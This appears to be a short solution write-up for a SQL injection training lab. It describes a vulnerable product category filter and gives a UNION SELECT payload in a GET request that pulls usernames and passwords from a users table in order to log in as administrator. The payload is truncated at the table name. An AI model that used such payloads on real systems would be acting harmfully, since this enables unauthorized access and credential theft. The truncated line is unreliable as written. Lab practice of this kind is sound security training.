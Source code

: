 # Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

# Solution

![](../../Image/Pasted%20image%2020250513170606.png)

```
GET /filter?category=' UNION SELECT null,username || '~' || password FROM use
```

![](../../Image/Pasted%20image%2020250513170701.png)

=> Use this password to login administrator user.